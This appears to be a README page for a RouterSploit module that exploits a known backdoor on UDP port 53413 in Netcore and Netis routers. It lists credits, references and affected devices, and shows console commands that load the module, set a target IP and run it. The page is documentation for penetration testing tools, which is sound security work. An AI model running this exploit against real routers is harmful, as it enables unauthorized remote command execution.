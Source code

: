 # Netcore/Netis UDP 53413 RCE

## Description
Exploits Netcore/Netis backdoor functionality that allows executing commands on operating system level.

## Authors
* Tim Yeh, Trend Micro # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.seebug.org/vuldb/ssvid-90227](https://www.seebug.org/vuldb/ssvid-90227)
* [http://blog.trendmicro.com/trendlabs-security-intelligence/netis-routers-leave-wide-open-backdoor/](http://blog.trendmicro.com/trendlabs-security-intelligence/netis-routers-leave-wide-open-backdoor/)

## Vulnerable devices
* Netcore
* Netis

## Usage
```
rsf > use exploits/netcore/udp_53413_rce
rsf (Netcore/Netis UDP 53413 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address


rsf (Netcore/Netis UDP 53413 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netcore/Netis UDP 53413 RCE) > run
[*] Running module...
```
